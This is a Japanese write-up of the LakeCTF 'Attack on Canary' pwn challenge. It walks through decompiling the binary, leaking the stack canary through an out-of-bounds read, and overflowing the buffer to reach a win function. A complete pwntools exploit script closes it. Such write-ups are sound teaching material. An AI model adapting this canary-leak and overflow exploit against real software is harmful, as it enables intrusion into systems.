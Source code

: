 ```yaml
---
title: "Lakectf Attack on Canary Writeups"
tags: ["ctf", "ハッキング"]
keywords: ["pwn", "canary"]
description: "LakectfのAttack on Canaryのwriteupです。"
cover: "img/canary.png"
date: 2022-09-26T21:24:13+09:00
draft: false
---
```


## 概要
実行可能ファイルが配られるので、実行アドレスをwin関数に飛ばしたらflagが得られるよという問題です。

![problem](img/canary.png)

## バイナリ解析
ghidraでディスアセンブリ/デコンパイルすると次のような結果になりました。

![disassemble](img/disas.png)

このプログラムは、プレイヤーに次の操作を可能にしています。

- 配列(RBP-0x60)に格納されている値を8バイト単位で見ることができる。実はその配列の範囲を超えた部分も見られる。(以下、操作0)
- 配列に好きな値を代入できる。"max 8 bytes"とあるが、実際には好きな長さの値を代入できる。(以下、操作1)

## 攻撃の方針
もちろん最終目的は、win関数の実行です。先ほどの通り、好きな大きさのデータを代入できるので、バッファオーバーフローが使えそうです。

しかし、障害が一つ。canaryの存在です。

バッファオーバーフローとは、プログラムが「次にここを実行しよう！」と思っている場所(RIP/EIP)を書き換えることで、プログラムの実行を任意に操作する手法です。

しかし、我々がデータを注入できる場所とRIPの間にはcanaryというデータがあります。

もちろん、バッファオーバーフロー時にはcanaryの値はメチャクチャになりますから、関数の実行前後でcanaryの値が変わっていた場合はプログラムが強制終了されます。つまり攻撃が失敗します。

さて、これを回避するためにはどうすればよいでしょうか。もしcanaryの値が判明すれば、バッファオーバーフロー時にcanaryの部分だけ変わらないようにpayloadを作れますね。

ここで使えるのが先ほどの機能です。

まず、データを覗き見られる操作0を実行します。canaryのアドレスは[RBP-0x8]なので、我々が操作できる配列との差は $ 0x60 - 0x8 = 88 $。
よって、"Tell me which slot you wanna read: "と聞かれたときには"11"と答えればcanaryが覗き見られますね。

あとはretまでのoffsetを計算してwin関数を実行するだけです。

## スクリプト
結論としては以下のスクリプトで問題が解けました。
```python
from pwn import *

win = 0x0000000000400837

def exec_command(io, cmd: bytes):
    io.recvuntil(b"Your command: ")
    io.sendline(cmd)

io = process("./exe")
#io = remote("chall.polygl0ts.ch", 6100)

exec_command(io, b"0")

io.recvuntil(b"Tell me which slot you wanna read: ")
io.sendline(b"11")

canary = io.recv(8)
log.info(f"canary: {canary}")

payload = b"A"*88
payload += canary
payload += b"A" * 8
payload += p64(win)

exec_command(io, b"1")

io.recvuntil(b"Tell me how much you wanna write: ")
io.sendline(b"112") # 88 + 8 (canary) + 8 (ret) + 8 (win)

io.recvuntil(b"What are the contents (max 8 bytes): ")
io.sendline(payload)

exec_command(io, b"2")

io.interactive()
```

